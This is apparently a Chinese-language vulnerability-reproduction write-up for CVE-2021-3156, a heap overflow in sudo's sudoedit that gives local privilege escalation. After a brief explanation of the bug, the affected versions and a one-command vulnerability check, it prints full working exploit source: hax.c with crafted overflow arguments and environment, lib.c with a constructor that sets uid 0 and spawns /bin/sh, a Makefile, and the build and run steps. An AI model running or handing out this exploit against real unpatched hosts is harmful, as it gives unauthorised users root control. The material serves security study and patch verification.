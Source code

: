 
# [](#cve-2021-3156-sudo-%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0)CVE-2021-3156 sudo 提权漏洞复现

## [](#1-%E6%BC%8F%E6%B4%9E%E4%BB%8B%E7%BB%8D)1 漏洞介绍

### [](#11-%E5%8E%9F%E7%90%86)1.1 原理

一个类 Unix 操作系统在命令参数中转义反斜杠时存在基于堆的缓冲区溢出漏洞。

当 sudo 通过 -s 或 -i 命令行选项在 shell 模式下运行命令时，它将在命令参数中使用反斜杠转义特殊字符。但使用 -s 或 -i 标志运行 sudoedit 时，实际上并未进行转义，从而可能导致缓冲区溢出。只要存在 sudoers 文件（通常是 /etc/sudoers），攻击者就可以使用本地普通用户利用 sudo 获得系统 root 权限。

### [](#12-%E5%BD%B1%E5%93%8D%E7%89%88%E6%9C%AC)1.2 影响版本

-   Sudo 1.8.2 - 1.8.31p2
-   Sudo 1.9.0 - 1.9.5p1

## [](#2-%E5%A4%8D%E7%8E%B0)2 复现

### [](#21-%E5%BF%AB%E9%80%9F%E5%88%A4%E6%96%AD%E6%BC%8F%E6%B4%9E%E6%96%B9%E6%B3%95)2.1 快速判断漏洞方法

以非 root 用户登录系统，并使用命令 `sudoedit -s /`

-   如果响应一个以 `sudoedit:` 开头的报错，那么表明存在漏洞。
-   如果响应一个以 `usage:` 开头的报错，那么表明补丁已经生效。

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210130223315.png-water_print](assets/1699410148-7c65faceaac7c2b15e9db9b8435cc018.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210130223315.png-water_print")

### [](#22-%E7%BC%96%E8%AF%91%E8%BF%90%E8%A1%8C)2.2 编译运行

一共三个文件：

1.  hax.c

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>41<br>42<br>43<br>44<br>45<br>46<br>47<br>48<br>49<br>50<br>51<br>``` | ```c<br>// Tested on:<br>// Ubunutu 20.0.4.1 LTS<br>// Sudo version 1.8.31<br>// Sudoers policy plugin version 1.8.31<br>// Sudoers file grammar version 46<br>// Sudoers I/O plugin version 1.8.31<br><br><br>#include <stdio.h><br>#include <string.h><br>#include <stdlib.h><br>#include <stdint.h><br>#include <unistd.h><br>#include <ctype.h><br><br>#define SUDOEDIT_PATH "/usr/bin/sudoedit"<br><br>int main(int argc, char *argv[]) {<br>	// CTF quality exploit below.<br>	char *s_argv[]={<br>		"sudoedit",<br>		"-u", "root", "-s",<br>		"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\\",<br>		"\\",<br>		"BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB123456\\",<br>		NULL<br>	};<br><br>	char *s_envp[]={<br>		"\\", "\\", "\\", "\\", "\\", "\\", "\\", "\\",<br>		"\\", "\\", "\\", "\\", "\\", "\\", "\\", "\\",<br>		"\\", "\\", "\\", "\\", "\\", "\\", "\\", "\\",<br>		"\\", "\\", "\\", "\\", "\\", "\\", "\\", "\\",<br>		"\\", "\\", "\\", "\\", "\\", "\\", "\\", "\\",<br>		"\\", "\\", "\\", "\\", "\\", "\\", "\\", "\\",<br>		"\\", "\\", "\\", "\\", "\\", "\\", "\\", "\\",<br>		"\\", "\\", "\\", "\\", "\\", "\\", "\\",  <br>		"X/P0P_SH3LLZ_", "\\",<br>		"LC_MESSAGES=C.UTF-8@AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA",<br>		"LC_ALL=C.UTF-8@AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA",<br>		"LC_CTYPE=C.UTF-8@AAAAAAAAAAAAAA",<br>		NULL<br>	};<br><br>	printf("**** CVE-2021-3156 PoC\n");<br><br>	execve(SUDOEDIT_PATH, s_argv, s_envp);<br><br>	return 0;<br>}<br>``` |

2.  lib.c

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>``` | ```c<br>#include <unistd.h><br>#include <stdio.h><br>#include <stdlib.h><br>#include <string.h><br> <br>static void __attribute__ ((constructor)) _init(void);<br> <br>static void _init(void) {<br>	printf("[+] bl1ng bl1ng! We got it!\n");<br>	setuid(0); seteuid(0); setgid(0); setegid(0);<br>	static char *a_argv[] = { "sh", NULL };<br>	static char *a_envp[] = { "PATH=/bin:/usr/bin:/sbin", NULL };<br>	execv("/bin/sh", a_argv);<br>}<br>``` |

3.  Makefile：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```makefile<br>all:<br>	rm -rf libnss_X<br>	mkdir libnss_X<br>	gcc -o sudo-hax-me-a-sandwich hax.c<br>	gcc -fPIC -shared -o 'libnss_X/P0P_SH3LLZ_ .so.2' lib.c<br>clean:<br>	rm -rf libnss_X sudo-hax-me-a-sandwich<br>``` |

编译：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```bash<br>tar -zxvf CVE-2021-3156.tar.gz<br>cd CVE-2021-3156<br>make<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210130223453.png-water_print](assets/1699410148-c4ea4c9e3cbe3ae67729e4891d50c27b.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210130223453.png-water_print")

直接执行：`./sudo-hax-me-a-sandwich` 即可。

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210130230253.png-water_print](assets/1699410148-d8d39b20920ef2403e3dcac07966c9f3.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210130230253.png-water_print")
